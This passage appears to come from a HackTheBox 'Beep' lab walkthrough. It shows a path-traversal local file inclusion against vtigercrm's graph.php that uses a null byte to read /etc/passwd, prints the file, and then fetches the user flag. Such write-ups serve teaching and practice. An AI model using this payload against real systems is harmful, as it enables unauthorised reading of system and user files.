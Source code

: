   <img src="/images/walkthroughs/hackthebox/beep/1_5_lfi.png" width="70%"/>
</p>

It works, so retrieving the users might help:

https://10.129.68.60/vtigercrm/graph.php?current_language=../../../../../../../..//etc/passwd%00&module=Accounts&action

- /etc/passwd

```
root:x:0:0:root:/root:/bin/bash
mysql:x:27:27:MySQL Server:/var/lib/mysql:/bin/bash
apache:x:48:48:Apache:/var/www:/sbin/nologin
...
asterisk:x:100:101:Asterisk VoIP PBX:/var/lib/asterisk:/bin/bash
spamfilter:x:500:500::/home/spamfilter:/bin/bash
haldaemon:x:68:68:HAL daemon:/:/sbin/nologin
xfs:x:43:43:X Font Server:/etc/X11/fs:/sbin/nologin
fanis:x:501:501::/home/fanis:/bin/bash
Sorry! Attempt to access restricted file.
```

We can see the user fanis, let's try to grab the user flag:

https://10.129.68.60/vtigercrm/graph.php?current_language=../../../../../../../..//home/fanis/user.txt%00&module=Accounts&action

<p align="center">
  <img src="/images/walkthroughs/hackthebox/beep/2_1_user.png" width="70%"/>
</p>
